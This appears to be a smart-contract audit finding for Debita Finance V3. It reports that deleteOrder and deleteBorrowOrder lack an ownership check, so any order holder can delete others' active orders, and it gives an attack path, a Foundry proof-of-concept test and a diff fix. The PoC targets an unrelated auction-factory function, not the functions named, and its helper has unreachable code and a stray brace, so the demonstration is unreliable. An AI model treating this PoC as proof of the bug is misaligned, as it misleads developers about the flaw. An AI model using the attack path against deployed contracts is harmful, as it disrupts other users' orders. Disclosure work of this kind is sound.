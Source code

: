 Smooth Lead Elk

Medium

# denial of service through deleteOrder( ) and deleteBorrowOrder ( )

### Summary

Anyone can call the functions [deleteOrder](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L207) and [deleteBorrowOrder](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaBorrowOffer-Factory.sol#L162 ) to delete an order by becoming either `isLendOrderLegit` or `isBorrowOrderLegit` respectively, as that is what is required when calling the functions. However, once anyone becomes legit, they are able to delete any active orders by specifying the order address.

A malicious lender or borrower could deny another legit user of returning the correct data when calling either `getActiveOrders` or `getActiveBorrowOrders` to get active orders.  

Active orders could be queried and displayed on the front end, however, they can be removed by a malicious actor. 



### Root Cause

The functions mentioned above do not check if the caller (legit borrower or lender ) is the owner of the order that is about to be deleted. 

### Internal pre-conditions

Malicous actor needs to  become either `isLendOrderLegit` or `isBorrowOrderLegit`  by creating an order .
 

### External pre-conditions

_No response_

### Attack Path

Call the functions with order address

### Impact

A malicious lender or borrower could deny another legit user of returning the correct data when calling either `getActiveOrders` or `getActiveBorrowOrders` to get active orders.  

### PoC

Paste the Helper function and  test  below in  `test/fork/Auctions`

Helper function :
```solidity
   function createAuctionInternal(
        uint initAmount,
        uint floorAmount,
        uint timelapse,
        address _signer
    ) internal returns (address) {
     vm.startPrank(_signer);
        deal(AERO, _signer, 1000e18, false);
        ERC20Mock(AERO).approve(address(ABIERC721Contract), 1000e18);
        uint id = ABIERC721Contract.createLock(100e18, 365 * 4 * 86400);
        ABIERC721Contract.approve(address(factory), id);
        address _auction = factory.createAuction(
            id,
            veAERO,
            AERO,
            initAmount,
            floorAmount,
            timelapse
        );
        return _auction;
        vm.stopPrank();
    }
}
```

Test  : 
 ```solidity
function test_Unauthorized_Deletion() public {
    // first user 
    address auction1 = createAuctionInternal(300e18, 15e18, 106400, signer);
    assertEq(factory.AuctionOrderIndex(auction1), 1);

    // second user
    address auction2 = createAuctionInternal(300e18, 15e18, 106400, secondSigner);
    assertEq(factory.AuctionOrderIndex(auction2), 2);

    vm.stopPrank();
// this should not be allowed
    vm.prank(address(auction1));
    factory._deleteAuctionOrder(auction2);

    assertEq(factory.AuctionOrderIndex(auction2), 0);

 
    vm.stopPrank();




}

```
run 
```console
forge test --fork-url http://localhost:8545 --mt test_Unauthorized_Deletion
```


https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L207


https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaBorrowOffer-Factory.sol#L162





### Mitigation

In `deleteBorrowOrder`

```diff
    function deleteBorrowOrder(address _borrowOrder) external onlyBorrowOrder {
+       require(msg.sender == _borrowOrder, "Only borrow order");
...
  }   
```

And in `deleteOrder`

```diff
  function deleteOrder(address _lendOrder) external onlyLendOrder {
+        require(msg.sender == _lendOrder, "Only lend order");
      
```